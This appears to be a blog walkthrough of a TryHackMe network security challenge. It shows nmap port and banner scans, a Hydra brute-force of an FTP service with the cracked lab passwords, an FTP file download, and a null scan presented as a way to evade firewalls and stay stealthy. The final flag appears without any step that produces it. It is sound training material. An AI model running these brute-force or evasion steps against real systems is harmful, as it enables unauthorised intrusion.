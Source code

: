 ```yaml
---
title: "Net Sec Challenge: THM Walkthrough"
subtitle: "Challenge to test your network security skills."
date: 2025-07-25
tags: [tryhackme]
---
```


This is a walkthrough for the TryHackMe room [Network Security Challenge Room](https://tryhackme.com/room/netsecchallenge). This challenge is designed to use [nmap](/docs/networking/nmap.md), [telnet](/docs/networking/telnet.md), [ftp](/docs/networking/ftp.md) and [hydra](/docs/security/tools/hydra.md) to find flags and learn about network security.
<!-- truncate -->

### Information Gathering

Start the machine and save IP address for the room.

```sh
export IP=10.10.164.150
```

Let's use [ping](https://en.wikipedia.org/wiki/Ping_(networking_utility)) to check if the machine is reachable.

```sh
ping $IP
64 bytes from 10.10.164.150: icmp_seq=0 ttl=63 time=21.815 ms
```

**1. What is the highest port number being open less than 10,000?**

Let's use [nmap](/docs/networking/nmap) to scan the target for the first 10.000 ports.

```sh
nmap -p1-10000 -T4 $IP
#     |         |-> -T4 for faster execution
#     |-> -p1-10000 to scan ports from 1 to 10.000
Nmap scan report for 10.10.164.150
Host is up (0.022s latency).
Not shown: 9995 closed tcp ports (conn-refused)
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
8080/tcp open  http-proxy

Nmap done: 1 IP address (1 host up) scanned in 49.03 seconds
```

**Answer:** 8080

**2. There is an open port outside the common 1000 ports; it is above 10,000. What is it?**

Let's use `-p-` to scan all ports (65535 ports) and see if there are any other open ports.

```sh
nmap -p- -T4 $IP
#     |   |-> -T4 for faster execution
#     |-> -p- to scan all ports
Nmap scan report for 10.10.164.150
Host is up (0.021s latency).
Not shown: 65529 closed tcp ports (conn-refused)
PORT      STATE SERVICE
22/tcp    open  ssh
80/tcp    open  http
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
8080/tcp  open  http-proxy
10021/tcp open  unknown
```

**Answer:** 10021

**3. How many TCP ports are open?**

```sh
22/tcp    open  ssh
80/tcp    open  http
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
8080/tcp  open  http-proxy
10021/tcp open  unknown
```

**Answer:** 6

**4. What is the flag hidden in the HTTP server header?**

Let's use nmap [http-header](https://nmap.org/nsedoc/scripts/http-headers.html) scanning script to find the HTTP server header.

```sh
nmap -p 80 --script=http-headers $IP
#     |             |-> -http-headers script to scan HTTP headers
#     |-> -p 80 to scan port 80
PORT   STATE SERVICE VERSION
80/tcp open  http    lighttpd
|_http-server-header: lighttpd THM{web_server_25352}
| http-headers:
|   Content-Type: text/html
|   Accept-Ranges: bytes
|   ETag: "229449419"
|   Last-Modified: Tue, 14 Sep 2021 07:33:09 GMT
|   Content-Length: 226
|   Connection: close
|   Date: Mon, 28 Jul 2025 10:35:10 GMT
|   Server: lighttpd THM{web_server_25352}
|
|_  (Request type: HEAD)
```

**Answer:** `THM{web_server_25352}`

**5. What is the flag hidden in the SSH server header?**

Let's use nmap [ssh-auth-methods](https://nmap.org/nsedoc/scripts/ssh-auth-methods.html) script to find our flag.

```sh
nmap -p 22 --script=ssh-auth-methods $IP

PORT   STATE SERVICE VERSION
22/tcp open  ssh     (protocol 2.0)
| ssh-auth-methods:
|   Supported authentication methods:
|     publickey
|_    password
| fingerprint-strings:
|   NULL:
|_    SSH-2.0-OpenSSH_8.2p1 THM{946219583339}
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port22-TCP:V=7.95%I=7%D=7/28%Time=6887538E%P=arm-apple-darwin24.2.0%r(N
SF:ULL,2A,"SSH-2\.0-OpenSSH_8\.2p1\x20THM{946219583339}\x20\r\n");
```

Also, the SSH service is unrecognized because of its modified banner because it contains our flag.

**Answer:** `THM{946219583339}`

**6. We have an FTP server listening on a nonstandard port. What is the version of the FTP server?**

```sh
nmap -sV -p- -T4 $IP
#     |   |   |-> -T4 for faster execution
#     |   |-> -p- to scan all ports
#     |-> -sV for service version detection
...
10021/tcp open  ftp         vsftpd 3.0.5
...
```

Answer: `vsftpd 3.0.5`

**7. We learned two usernames using social engineering: `eddie` and `quinn`. What is the flag hidden in one of these two account files and accessible via FTP?**

Let's use [Hydra](/docs/security/tools/hydra) to brute force the FTP service on port `10021`. We will use the usernames **`eddie`** and **`quinn`** that we learned about, and the password list [rockyou.txt](https://github.com/brannondorsey/naive-hashcat/releases/download/data/rockyou.txt). I added the usernames to a file called `user-list`.

```sh
hydra -L user-list -P rockyou.txt -s 10021 ftp://$IP
#      |            |              |        |-> ftp://$IP to specify the FTP service
#      |            |              |-> -s 10021 to specify the port
#      |            |-> -P to specify a file with passwords
#      |-> -L to specify a file with usernames   
[DATA] max 16 tasks per 1 server, overall 16 tasks, 28688796 login tries (l:2/p:14344398), ~1793050 tries per task
[DATA] attacking ftp://10.10.164.150:10021/
[10021][ftp] host: 10.10.164.150   login: eddie   password: jordan
[10021][ftp] host: 10.10.164.150   login: quinn   password: andrea
1 of 1 target successfully completed, 2 valid passwords found
```

We successfully brute-forced the FTP service and found two valid credentials:

- Username: `eddie`, Password: `jordan`
- Username: `quinn`, Password: `andrea`

Now, let's connect to the FTP service using the `eddie` user and `quinn` users to see if we can find any flags.

Nothing discovered on the `eddie` user.

But we found a filename `ftp_flag.txt` in the `quinn` user and downloaded it to our machine.

```sh
ftp 10.10.164.150 10021
Connected to 10.10.164.150.
220 (vsFTPd 3.0.5)
Name (10.10.164.150:root): quinn
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-rw-r--    1 1002     1002           18 Sep 20  2021 ftp_flag.txt
226 Directory send OK.
ftp> get ftp_flag.txt
local: ftp_flag.txt remote: ftp_flag.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for ftp_flag.txt (18 bytes).
226 Transfer complete.
18 bytes received in 0.00 secs (39.4128 kB/s)
```

```sh
cat ftp_flag.txt 
THM{321452667098}
```

**Answer:** `THM{321452667098}`

**8. Browsing to [http://10.10.164.150:8080](http://10.10.164.150:8080) displays a small challenge that will give you a flag once you solve it. What is the flag?**

Null Scan doesn't set any TCP flags, so it is useful to bypass firewalls and packet filters that block certain types of traffic. Let's use nmap with the `-sN` option to perform a null scan on port `8080`.

```sh
nmap -sN 10.10.164.150
Nmap scan report for 10.10.164.150
Host is up (0.027s latency).
Not shown: 995 closed tcp ports (reset)
PORT     STATE         SERVICE
22/tcp   open|filtered ssh
80/tcp   open|filtered http
139/tcp  open|filtered netbios-ssn
445/tcp  open|filtered microsoft-ds
8080/tcp open|filtered http-proxy
```

**Answer:** `THM{f7443f99}`

### Conclusion

This room was a great practice for network security skills, including using tools like nmap, telnet, ftp, and hydra to find flags and learn about network security.
The advanced technique like null scan was a nice touch to bypass firewalls and packet filters, sometimes we need to avoid detection and remain "stealthy" if possible.

### Links

- [TryHackMe: Nmap Advanced Port Scans](https://tryhackme.com/room/nmap03)
